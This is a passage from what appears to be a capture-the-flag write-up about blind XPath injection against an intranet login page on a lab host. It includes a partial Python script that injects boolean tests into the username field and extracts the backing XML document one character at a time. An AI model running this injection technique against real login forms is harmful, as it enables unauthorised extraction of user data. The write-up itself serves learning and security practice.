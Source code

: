 I also now have a way to test boolean statements. If I replace `1=1` with
something I don’t know, if it returns the list of users, then it must have
evaluated to true. If it doesn’t, then false. In fact, I can dump the entire
XML document. Some manual checks showed that there’s only one node at the
root. The script does the rest:

    
    
    #!/usr/bin/env python3
    
    import requests
    import string
    import sys
    
    
    s = requests.session()
    #s.proxies = {'http':'http://127.0.0.1:8080'}
    s.proxies = {'http':'http://10.10.10.200:3128'}
    keys = []
    
    def xpath_req(test):
        resp = s.post('http://172.31.179.1/intranet.php', data={'Username':f"' or {test} or ''='", 'Password':'0xdf'})
        return 'Rita' in resp.text
    
    
    def get_text(item, alpha=string.ascii_lowercase+string.ascii_uppercase):
        global keys
        for key in keys:
            if xpath_req(f"{item}='{key}'"):
                print(key, end='', flush=True)
                return key
    
        i = 1
        while True:
            if xpath_req(f'string-length({item})={i}'):
                break
            if i > 100:
                print("Error")
                sys.exit()
            i += 1
    
        text_len = i
    
        res = ''
        for i in range(1, text_len+1):
            for c in alpha:
                if xpath_req(f"substring({item}, 1, {i})='{res}{c}'"):
                    res += c
                    print(f'{c}', end='', flush=True)
                    break
        keys += [res]
        return res
    
    def get_node(node, depth=0):
    
        print(f'\n{" "*depth*2}<', end='', flush=True)
        node_name = get_text(f'name({node})')
        #print(node_name, end='', flush=True)
        print('>', end='', flush=True)
    